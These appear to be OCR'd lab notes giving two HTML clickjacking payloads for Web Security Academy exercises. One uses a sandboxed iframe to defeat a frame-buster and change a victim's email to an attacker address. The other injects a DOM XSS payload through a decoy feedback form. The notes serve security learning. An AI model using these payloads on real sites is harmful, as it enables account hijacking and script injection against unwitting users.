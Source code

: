```html
```
---

**Clickjacking with a frame buster script**

    click on a decoy website
    exploit server
    CSRF - update email
    framebuster
```html
<style>
    iframe {
        position:relative;
        width:$width_value;
        height: $height_value;
        opacity: $opacity;
        z-index: 2;
    }
    div {
        position:absolute;
        top:$top_value;
        left:$side_value;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe sandbox="allow-forms"
src="YOUR-LAB-ID.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>
```
---
**Exploiting clickjacking vulnerability to trigger DOM-based XSS**

    click on a decoy website
    exploit server
    call print()
    DOM XSS
```html
<style>
	iframe {
		position:relative;
		width:$width_value;
		height: $height_value;
		opacity: $opacity;
		z-index: 2;
	}
	div {
		position:absolute;
		top:$top_value;
		left:$side_value;
		z-index: 1;
	}
</style>
<div>Click me</div>
<iframe
src="YOUR-LAB-ID.web-security-academy.net/feedback?name=<img src=1 onerror=print()>&email=hacker@attacker-website.com&subject=test&message=test#feedbackResult"></iframe>
```
---
